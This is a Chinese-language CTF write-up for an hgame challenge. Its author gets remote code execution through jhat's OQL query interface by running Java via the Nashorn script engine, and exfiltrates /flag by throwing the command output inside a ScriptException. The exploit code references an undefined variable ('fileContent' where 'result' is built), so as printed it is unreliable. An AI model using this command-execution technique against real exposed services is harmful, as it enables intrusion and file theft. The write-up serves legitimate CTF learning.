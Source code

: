 > 这题分析如果有错的话还请轻喷/(ㄒoㄒ)/~~，欢迎拷打不懂很多的我( '◡' )

通过网页可以看到类信息，结合附件`dockerfile`（应该就是靶机环境）可知靶机应该就只是用jhat对`heapdump.hprof`进行了解析

所以看来看去能打打看的也就只有那个OQL数据库了  *后来也给hint了*

一开始觉得会不会是把flag明文写在哪个class的值里了，但是试了好久，查询出来不是报错就是空白 ~~第一次接触OQL全是报错~~

然后发现报错里面有Java反射，想会不会是用反射进行RCE  *想到可能是RCE的时候发现给hint了；事实证明RCE的实现和反射不太有关，但是回显貌似是有关的？*

RCE嘛那应该就是读文件里的flag，`dockerfile`中显示将`/data` copy到了根目录，所以应该要读的就是`/flag`

通过报错发现用了`NashornEngine`，可以执行Java语句

翻到有一篇十年前的OQL RCE文章，用经典语句试了一下

```javascript
java.lang.Runtime.getRuntime().exec('cat /flag')
```

回显了`java.lang.UNIXProcess@xxxxxxxx`，了解了一下应该是`Process`对象的默认字符串表示形式，在执行子进程时会返回`Process`对象，输出这个对象的时候调用了默认的`toString()`，所以这个点应该是有效的，所以问题的关键就变成了如何将这个进程的结果回显出来

~~然后就这么愉快地卡住了~~

尝试了很多，翻到别的OQL有反射洞，但是利用不了。然后想着应该是可以用报错的方式把文件内容抛出来，最后也是成功了

```javascript
//在gpt的帮助下整出来了第一版exp

var BufferedReader = java.io.BufferedReader;
var InputStreamReader = java.io.InputStreamReader;

try {
    var process = java.lang.Runtime.getRuntime().exec('cat /flag');
    var inputStream = process.getInputStream();
    var reader = new BufferedReader(new InputStreamReader(inputStream));

    var line;
    var result = new java.lang.StringBuilder();

    while ((line = reader.readLine()) != null) {
        result.append(line).append('\n');
    }
    
	//这里有一个可有可无的toString()转换

    throw new javax.script.ScriptException("File content: " + fileContent);
} catch (e) {
    
    throw new javax.script.ScriptException("File content: " + fileContent);
}


//Caused by: <eval>:22:3 javax.script.ScriptException: File content: hgame{} 会这样抛出flag
```

然后想看看有没有其他方法，或者说是怎么做到的（？）
